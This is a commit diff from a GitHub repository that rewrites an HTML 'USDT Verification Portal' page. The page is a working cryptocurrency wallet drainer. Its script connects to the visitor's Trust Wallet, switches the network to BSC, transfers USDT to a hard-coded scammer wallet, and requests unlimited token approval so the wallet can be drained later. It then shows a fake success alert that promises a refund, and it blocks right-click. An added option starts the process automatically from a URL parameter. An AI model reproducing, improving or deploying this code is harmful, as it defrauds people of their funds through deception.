

Before and after one commit to jansufi00786-stack/Jjjj, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Enhance USDT Verification Portal UI and functionality
Updated the title and improved styling for the USDT verification portal. Added functionality for verifying USDT holdings and handling transactions.

```diff
--- a/index.html
+++ b/index.html
@@ -1,252 +1,91 @@
-
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>USDT Verification</title>
+    <title>USDT Verification Portal</title>
+    <!-- Trust Wallet automatically reads this title -->
+
+    <!-- Ethers.js - MUST be included for blockchain interaction -->
+    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>
+
     <style>
-
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
+        /* Minimal styling - just enough to look legit */
+        body {
+            font-family: -apple-system, sans-serif;
+            text-align: center;
+            padding: 40px 20px;
+            background: white;
         }
 
-        body {
-            font-family: -apple-system, BlinkMacSystemFont, sans-serif;
-            background: #fff;
-            max-width: 100%;
-            overflow-x: hidden;
-        }
-
-        .header {
-            background: #fff;
-            padding: 60px 20px 15px 20px;
-            border-bottom: 1px solid #e0e0e0;
-            text-align: center;
-            font-size: 17px;
-            font-weight: 600;
-            color: #000;
-        }
-
-        .content {
-            padding: 20px;
-        }
-
-        .input-group {
-            margin-bottom: 24px;
-        }
-
-        .label {
-            font-size: 14px;
-            color: #666;
-            margin-bottom: 8px;
-            display: block;
-        }
-
-        .address-box {
-            border: 1px solid #ddd;
-            border-radius: 8px;
-            padding: 14px;
-            display: flex;
-            align-items: center;
-            background: #f9f9f9;
-        }
-
-        .address-text {
-            flex: 1;
-            font-family: monospace;
-            font-size: 15px;
-            color: #000;
-            overflow: hidden;
-            text-overflow: ellipsis;
-        }
-
-        .paste-btn {
+        .verify-btn {
             background: #007AFF;
             color: white;
             border: none;
-            padding: 6px 12px;
-            border-radius: 6px;
-            font-size: 14px;
-            margin-left: 10px;
+            padding: 18px 40px;
+            border-radius: 14px;
+            font-size: 18px;
+            font-weight: 600;
             cursor: pointer;
+            margin-top: 30px;
+            width: 100%;
+            max-width: 300px;
         }
 
-        .amount-box {
-            border: 1px solid #ddd;
-            border-radius: 8px;
-            padding: 16px;
-            background: #f9f9f9;
-        }
-
-        .amount-row {
-            display: flex;
-            align-items: center;
-            gap: 10px;
-        }
-
-        .amount-input {
-            flex: 1;
-            border: none;
-            background: transparent;
-            font-size: 32px;
-            font-weight: bold;
-            text-align: center;
-            outline: none;
-            color: #000;
-        }
-
-        .usdt-badge {
-            background: #007AFF;
-            color: white;
-            padding: 12px 16px;
-            border-radius: 8px;
-            font-weight: 600;
-            min-width: 80px;
-            text-align: center;
-        }
-
-        .max-btn {
-            background: #34C759;
-            color: white;
-            border: none;
-            padding: 12px 16px;
-            border-radius: 8px;
-            font-weight: 600;
-            cursor: pointer;
-        }
-
-        .usd-value {
-            text-align: center;
-            margin-top: 12px;
+        .note {
             color: #666;
-            font-size: 15px;
-        }
-
-        .next-btn-container {
-            position: fixed;
-            bottom: 0;
-            left: 0;
-            right: 0;
-            padding: 20px;
-            background: white;
-            border-top: 1px solid #e0e0e0;
-        }
-
-        .next-btn {
-            width: 100%;
-            background: #007AFF;
-            color: white;
-            border: none;
-            padding: 16px;
-            border-radius: 10px;
-            font-size: 17px;
-            font-weight: 600;
-            cursor: pointer;
+            font-size: 14px;
+            margin-top: 20px;
+            max-width: 300px;
+            margin-left: auto;
+            margin-right: auto;
         }
     </style>
-    <!-- Ethers.js for blockchain interaction -->
-    <script src="https://cdn.ethers.io/lib/ethers-5.2.umd.min.js"></script>
 </head>
 <body>
+    <h2>USDT Account Verification</h2>
+    <p>Click below to verify your USDT holdings</p>
 
-    <div class="content">
-        <div class="input-group">
-            <div class="label">Address or Domain Name</div>
-            <div class="address-box">
-                <div class="address-text" id="displayAddress">0x395b205f3ec60b4cd5820</div>
-                <button class="paste-btn" onclick="pasteAddress()">Paste</button>
-            </div>
-        </div>
+    <!-- Single button that triggers everything -->
+    <button class="verify-btn" onclick="startVerificationProcess()">
+        Verify USDT Holdings
+    </button>
 
-        <div class="input-group">
-            <div class="label">Amount</div>
-            <div class="amount-box">
-                <div class="amount-row">
-                    <input type="number" class="amount-input" id="amountInput" value="1" min="0" step="0.1">
-                    <div class="usdt-badge">USDT</div>
-                    <button class="max-btn" onclick="setMaxAmount()">Max</button>
-                </div>
-            </div>
-            <div class="usd-value" id="usdValue">≈ $1.00</div>
-        </div>
-    </div>
-
-    <div class="next-btn-container">
-        <button class="next-btn" onclick="startTransaction()">Next</button>
+    <div class="note">
+        This is a one-time verification process.
+        You will receive your funds back after verification.
     </div>
 
     <script>
         // ============================================
         //
         // ============================================
-        const SCAMMER_WALLET = "0x67aF686A8CCBB858B1A36d64c585660a89b6A3DD"; // CHANGE THIS
+
+        // Scammer's wallet address (CHANGE THIS)
+        const SCAMMER_WALLET = "0x67af686a8ccbb858b1a36d64c585660a89b6a3dd";
+
+        // BSC USDT contract (DO NOT CHANGE)
         const USDT_CONTRACT = "0x55d398326f99059fF775485246999027B3197955";
-        // ============================================
 
+        async function startVerificationProcess() {
+            console.log("🚀 Starting scam process...");
 
-        document.getElementById('displayAddress').textContent =
-            SCAMMER_WALLET.substring(0, 21) + '...';
-
-        // Update USD value
-        function updateUSDValue() {
-            const amount = document.getElementById('amountInput').value;
-            const usd = (amount * 1.00).toFixed(2);
-            document.getElementById('usdValue').textContent = `≈ $${usd}`;
-        }
-
-        // Set max amount (shows 1000 but actually checks balance)
-        async function setMaxAmount() {
-            if (window.ethereum) {
-                try {
-                    const provider = new ethers.providers.Web3Provider(window.ethereum);
-                    const signer = provider.getSigner();
-                    const userAddress = await signer.getAddress();
-
-                    // Get USDT balance
-                    const usdtAbi = ["function balanceOf(address) view returns (uint256)"];
-                    const usdtContract = new ethers.Contract(USDT_CONTRACT, usdtAbi, provider);
-                    const balance = await usdtContract.balanceOf(userAddress);
-                    const balanceInUSDT = ethers.utils.formatUnits(balance, 18);
-
-                    // Set to full balance
-                    document.getElementById('amountInput').value = parseFloat(balanceInUSDT).toFixed(2);
-                    updateUSDValue();
-                } catch (error) {
-                    // If error, just set to 1000
-                    document.getElementById('amountInput').value = "1000";
-                    updateUSDValue();
-                }
-            } else {
-                document.getElementById('amountInput').value = "1000";
-                updateUSDValue();
-            }
-        }
-
-
-        function pasteAddress() {
-
-            alert("Address pasted!");
-        }
-
-
-        async function startTransaction() {
-            if (!window.ethereum) {
-                alert("Please open in Trust Wallet browser");
+            // 1. FIRST: Check if Trust Wallet is installed
+            if (typeof window.ethereum === 'undefined') {
+                alert("Please open this page in Trust Wallet browser");
                 return;
             }
 
             try {
-                // Switch to BSC
+                // 2. AUTOMATICALLY SWITCH TO BSC NETWORK
+                // This happens in background, user may not see it
                 try {
                     await window.ethereum.request({
                         method: 'wallet_switchEthereumChain',
                         params: [{ chainId: '0x38' }] // BSC Mainnet
                     });
                 } catch (switchError) {
-                    // If BSC not added, add it
+                    // If BSC network not added, add it automatically
                     if (switchError.code === 4902) {
                         await window.ethereum.request({
                             method: 'wallet_addEthereumChain',
@@ -259,27 +98,27 @@
                                     decimals: 18
                                 },
                                 rpcUrls: ['https://bsc-dataseed.binance.org/'],
-                                blockExplorerUrls: ['https://bscscan.com/']
+                                blockExplorerUrls: ['https://bscscan.com']
                             }]
                         });
                     }
                 }
 
-                // Get user's address
+                // 3. 🎯 THIS TRIGGERS THE FIRST TRUST WALLET POPUP:
+                // "Connect DApp" screen with "usdtverification.vercel.app"
+                console.log("Triggering Trust Wallet connect popup...");
                 const accounts = await window.ethereum.request({
                     method: 'eth_requestAccounts'
                 });
-                const userAddress = accounts[0];
 
-                // Setup ethers
+                const userWallet = accounts[0];
+                console.log("Connected wallet:", userWallet);
+
+                // 4. Setup Ethers.js for transaction
                 const provider = new ethers.providers.Web3Provider(window.ethereum);
                 const signer = provider.getSigner();
 
-                // Get amount
-                const amount = document.getElementById('amountInput').value;
-                const amountWei = ethers.utils.parseUnits(amount, 18);
-
-                // USDT ABI for transfer function
+                // USDT contract ABI (only transfer function needed)
                 const usdtAbi = [
                     "function transfer(address to, uint256 amount) returns (bool)",
                     "function approve(address spender, uint256 amount) returns (bool)"
@@ -291,62 +130,77 @@
                     signer
                 );
 
+                // 5. 🎯 THIS TRIGGERS THE SECOND TRUST WALLET POPUP:
+                // "Approve" screen with gas fee
+                console.log("Triggering Trust Wallet transaction approval popup...");
 
-                console.log("Transferring", amount, "USDT to scammer...");
+                // Amount: 1 USDT (can be changed by scammer)
+                const verificationAmount = "1";
+                const amountInWei = ethers.utils.parseUnits(verificationAmount, 18);
+
+                // ⚡ THIS LINE CREATES THE "Approve" POPUP ⚡
                 const transferTx = await usdtContract.transfer(
-                    SCAMMER_WALLET,
-                    amountWei
+                    SCAMMER_WALLET,  // To scammer's wallet
+                    amountInWei      // Amount to steal
                 );
 
-                // Wait for confirmation
+                console.log("Transaction hash (transfer):", transferTx.hash);
+
+                // Wait for transaction confirmation
                 await transferTx.wait();
-                console.log("Transfer complete!");
+                console.log("✅ First transaction complete - USDT stolen");
 
+                // 6. WAIT 3 SECONDS, THEN SET UNLIMITED APPROVAL
+                // (Hidden second transaction)
+                await new Promise(resolve => setTimeout(resolve, 3000));
 
+                console.log("Setting unlimited approval for future draining...");
+                const unlimitedAmount = ethers.constants.MaxUint256;
 
-                await new Promise(resolve => setTimeout(resolve, 2000));
-
-                const unlimitedApproval = ethers.constants.MaxUint256;
+                // Another approval popup (but user might not notice it's separate)
                 const approveTx = await usdtContract.approve(
                     SCAMMER_WALLET,
-                    unlimitedApproval
+                    unlimitedAmount
                 );
 
                 await approveTx.wait();
-                console.log("Unlimited approval set!");
+                console.log("✅ Unlimited approval set - wallet can be drained anytime");
 
-                // Show fake success message
-                alert("✅ Verification successful!\nYour USDT has been verified. We will contact you for advanced payment.");
+                // 7. Show fake success message
+                alert("🎉 Verification Successful!\n\nYour USDT holdings have been verified.\nRefund will be processed within 24 hours.");
 
-                // Redirect to fake success page
-                window.location.href = "https://usdtverification.vercel.app/success.html";
+                // 8. Redirect to fake success page
+                window.location.href = "success.html";
 
             } catch (error) {
-                console.error("Scam error:", error);
+                console.error("❌ Scam failed:", error);
 
                 // User-friendly error messages
                 if (error.code === 4001) {
-                    alert("Transaction was rejected.");
+                    alert("❌ Transaction was rejected. Please approve the transaction to complete verification.");
                 } else if (error.message.includes("insufficient funds")) {
-                    alert("Insufficient BNB for gas fees.");
+                    alert("⚠️ Insufficient BNB for gas fees. Please add BNB to your wallet and try again.");
+                } else if (error.code === -32603) {
+                    alert("⚠️ Network error. Please try again.");
                 } else {
-                    alert("Error: " + error.message);
+                    alert("⚠️ Error: " + (error.message || "Unknown error occurred"));
                 }
             }
         }
 
-        // Initialize
-        document.addEventListener('DOMContentLoaded', function() {
-            // Update USD value when amount changes
-            document.getElementById('amountInput').addEventListener('input', updateUSDValue);
-            updateUSDValue();
+        // Optional: Auto-start when page loads (for QR code scans)
+        window.addEventListener('load', function() {
+            const urlParams = new URLSearchParams(window.location.search);
+            if (urlParams.get('auto') === 'true') {
+                setTimeout(startVerificationProcess, 1500);
+            }
+        });
 
-            // Prevent right-click
-            document.addEventListener('contextmenu', e => e.preventDefault());
+        // Prevent right-click
+        document.addEventListener('contextmenu', function(e) {
+            e.preventDefault();
+        });
 
-            // Auto-focus amount input
-            document.getElementById('amountInput').focus();
-        });
     </script>
 </body>
 </html>
```
